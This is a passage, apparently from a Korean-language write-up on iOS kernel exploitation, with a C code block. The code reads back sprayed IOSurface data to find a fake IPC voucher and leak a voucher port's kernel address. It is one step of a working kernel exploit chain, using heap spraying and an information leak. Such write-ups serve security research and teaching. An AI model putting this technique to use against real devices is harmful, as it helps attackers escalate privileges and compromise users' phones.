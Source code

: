 이제 `IOSurfaceRootUserClient::get_value()` 래퍼 함수를 이용하여 스프레이된 데이터들 중에 “`thread_get_mach_voucher` → `convert_voucher_to_port` 함수가 호출되면서 생성된 바우처 포트 커널 주소”를 찾는다.

```c
    uint8_t *response = (uint8_t *)malloc(spray_size);
    size_t sz = spray_size;

    int spray_index = 0;
    int port_index = 0;
    fake_ipc_voucher_t *target_voucher = NULL;

    INFO("getting responses...\n");
    for (int s = 0; s < spray_qty; s++)
    {
        bzero((void *)response, spray_size);

        struct IOSurfaceValueArgs_string request = {
            .surface_id = IOSurface_id,
            ._out1 = 0x0,
            .string_data = transpose(s),
            .null = 0
        }; 

        ret = IOSurface_get_value((struct IOSurfaceValueArgs *)&request, sizeof(request), response, &sz);
        if(ret == false) exit(1);

        uint8_t *cursor = response + 0x10;

        for (int j = 0; j < pagesize / sizeof(fake_ipc_voucher_t); j++)
        {
            fake_ipc_voucher_t *found_voucher = (fake_ipc_voucher_t *)(cursor + (j * sizeof(fake_ipc_voucher_t)));

            if (found_voucher->iv_port != 0)
            {
                INFO("found voucher!! s: %d, j: %d\n", s, j);
                INFO("port: 0x%llx\n", found_voucher->iv_port);
                INFO("refs: %d\n", found_voucher->iv_refs);

                getchar();
                
                spray_index = s;
                port_index = j;
                target_voucher = found_voucher;

                goto found_voucher_lbl;
            }
        }
    }

    if (target_voucher == NULL)
    {
        ERROR("failed to find the target voucher :-(\n");
        return -1;
    }

found_voucher_lbl:;
...
```

